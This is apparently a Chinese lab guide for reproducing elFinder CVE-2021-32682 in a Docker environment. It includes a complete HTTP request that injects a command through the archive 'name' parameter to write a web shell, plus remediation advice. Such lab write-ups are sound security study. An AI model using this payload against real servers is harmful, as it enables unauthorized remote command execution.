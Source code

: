 # elFinder ZIP 参数与任意命令注入（CVE-2021-32682）

elFinder是一个基于PHP、Jquery的开源文件管理系统。

在elFinder 2.1.48及以前的版本中，存在一处参数注入漏洞。攻击者可以利用这个漏洞在目标服务器上执行任意命令，即使是最小化安装的elFinder。

这个漏洞的原因除了参数注入外，还有默认情况下的未授权访问，因此我们可以对elFinder增加权限校验，避免任意用户操作服务器上的文件，进而避免被执行任意命令。当然，升级版本到2.1.49及以上也是必要的。

参考链接：

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## 漏洞环境

执行如下命令启动一个elFinder 2.1.48版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到elFinder的文件管理页面。

## 漏洞复现

复现这个漏洞首先需要用elFinder提供的功能，创建两个文件。

先创建一个普通的文本文件`1.txt`：

![](1.png)

然后右键这个文件，对其进行打包，打包后的文件命名为`2.zip`：

![](2.png)

最后我们获得`1.txt`和`2.zip`两个文件：

![](3.png)

然后，发送如下数据包来执行任意命令：

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

这个数据包中，你可以看到三个重要的参数：

- `name`， 值为`-TvTT=id>shell.php # a.zip`，你可以修改`id>shell.php`为任意你想执行的命令
- `targets[0]`， 值为`l1_MS50eHQ`，`l1`意思是第一个文件系统（默认值，不用修改），`MS50eHQ`是`1.txt`的base64编码
- `targets[1]`， 值为`l1_Mi56aXA`，`l1`意思是第一个文件系统（默认值，不用修改），`Mi56aXA`是`2.zip`的base64编码

虽然这个数据包发送后会返回错误信息，但实际上其中指定的命令已经被成功执行，可以访问`http://your-ip:8080/files/shell.php`查看执行的结果：

![](4.png)
